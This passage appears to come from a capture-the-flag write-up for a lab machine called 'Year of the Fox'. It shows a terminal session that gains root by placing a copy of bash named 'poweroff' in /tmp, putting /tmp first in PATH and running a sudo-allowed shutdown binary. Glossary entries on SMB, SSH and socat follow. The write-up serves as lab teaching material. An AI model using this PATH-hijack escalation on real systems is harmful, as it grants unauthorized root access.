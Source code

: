 ```bash
fox@year-of-the-fox:/usr/sbin$ cd /tmp
fox@year-of-the-fox:/tmp$ cp /bin/bash /tmp/poweroff
fox@year-of-the-fox:/tmp$ chmod +x /tmp/poweroff
fox@year-of-the-fox:/tmp$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
fox@year-of-the-fox:/tmp$ sudo /usr/sbin/shutdown
root@year-of-the-fox:/tmp# whoami
root
root@year-of-the-fox:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@year-of-the-fox:/tmp# 
```

# Appendix

## SMB (Server Message Block)

<aside>
💡

Server Message Block (SMB) is a network protocol used for sharing files, printers, and other resources between computers in a network. It allows computers to read and write to files, request services, and communicate with network devices like printers and servers. SMB is mainly used in Windows environments but is also supported by Linux and macOS systems. In a Windows domain, SMB allows centralized file sharing and resource access, with users authenticated via Active Directory. In the context of SMB (Server Message Block), a share refers to a network resource such as a file directory, printer, or device that is made available to other users or computers on the network.

</aside>

## SSH (Secure Shell)

<aside>
💡

SSH is a network protocol that provides secure access to a remote system over an insecure network. It is commonly used for remote login and command execution, allowing encrypted communication between a client and a server. SSH can be used to securely tunnel other protocols, allowing services like HTTP to be transmitted securely. SSH allows users to execute commands on remote machines as if they were local.

</aside>

## Socat (Socket CAT)

<aside>
💡

Socat is a command-line utility that establishes bidirectional data transfer between two data streams, which could be files, pipes, devices, or network sockets. It can handle a wide range of protocols (TCP, UDP, UNIX sockets) and can be used to connect or redirect traffic between different sources.
